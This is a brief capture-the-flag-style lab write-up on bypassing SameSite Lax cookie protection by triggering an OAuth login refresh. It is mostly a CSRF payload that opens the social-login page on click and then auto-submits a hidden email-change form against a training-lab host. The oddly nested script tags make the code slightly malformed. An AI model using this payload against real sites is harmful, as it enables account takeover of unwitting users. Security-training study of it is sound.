 ## Lab: SameSite Lax bypass via cookie refresh

Defense
- session Cookie: Lax


Bypass:
- Lax Cookie is not protected from CSRF within 2 mins (attack window)
- Every time Oauth login reset a new session ==> open a new attack window for 2 mins
- use `window.onclick` to trick victims to open a Oauth login page


```
<script>
    <form method="POST" action="https://0a7c0077038c059b804ca3cd00d000e2.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="hell@web-security-academy.net">
    </form>
    <script>
        window.onclick = () => {
            window.open('https://0a7c0077038c059b804ca3cd00d000e2.web-security-academy.net/social-login');
            setTimeout(changeEmail, 5000);
        }

        function changeEmail() {
            document.forms[0].submit();
        }
    </script>
</script>
```